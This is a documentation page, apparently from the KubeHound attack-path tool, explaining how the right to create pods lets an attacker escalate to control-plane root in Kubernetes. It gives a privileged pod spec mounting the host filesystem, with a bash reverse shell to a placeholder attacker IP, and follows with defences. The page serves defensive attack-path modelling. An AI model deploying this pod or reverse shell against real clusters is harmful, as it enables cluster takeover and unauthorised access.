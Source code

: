 <!--
id: POD_CREATE
name: "Create privileged pod"
mitreAttackTactic: TA0004 - Privilege escalation
mitreAttackTechnique: "T1053.007 - Scheduled Task/Job: Container Orchestration Job" 
-->

# POD_CREATE

Create a pod with significant privilege (`CAP_SYSADMIN`, `hostPath=/`, etc) and schedule on a target node via setting the `nodeName` selector.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [PermissionSet](../entities/permissionset.md) | [Node](../entities/node.md) | [Container Orchestration Job, T1053.007](https://attack.mitre.org/techniques/T1053/007/) |

## Details

Given the rights to create a new pod, an attacker can create a deliberately overprivileged pod within the cluster. This will grant the attacker full control over the node on which the pod is scheduled (via any number of container escape techniques). Additionally by setting the `nodeName` selector in the pod spec to the control plane node, the attacker can gain root access to the control plane node and take over the entire cluster!

## Prerequisites

A role granting permission to create pods.

## Checks

Check whether the current account has the ability to create pods, for example using kubectl:

```bash
kubectl auth can-i create pod
```

## Exploitation

Identify the name of the target (e.g control plane) node via:

```bash
kubectl get nodes -o wide --all-namespaces | grep control-plane
```

Create a pod spec for our attack pod:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: control-plane-attack
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: control-plane-attack
    image: ubuntu
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1" ]
  nodeName: < TARGET NODE NAME > 
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

Create the pod via kubectl:

```bash
kubebctl apply -f control-plane-pod-spec.yaml
```

## Defences

### Monitoring

+ Monitor for pod creation from within an existing pod 
+ Monitor privileged pod creation with suspicious command arguments

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with additional powerful capabilities.

## Calculation

+ [PodCreate](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/pod_create.go)

## References:

+ [The Path Less Traveled: Abusing Kubernetes Defaults (Video)](https://www.youtube.com/watch?v=HmoVSmTIOxM)
+ [The Path Less Traveled: Abusing Kubernetes Defaults (GitHub)](https://github.com/mauilion/blackhat-2019)
+ [Bad Pods](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation#Pod1)
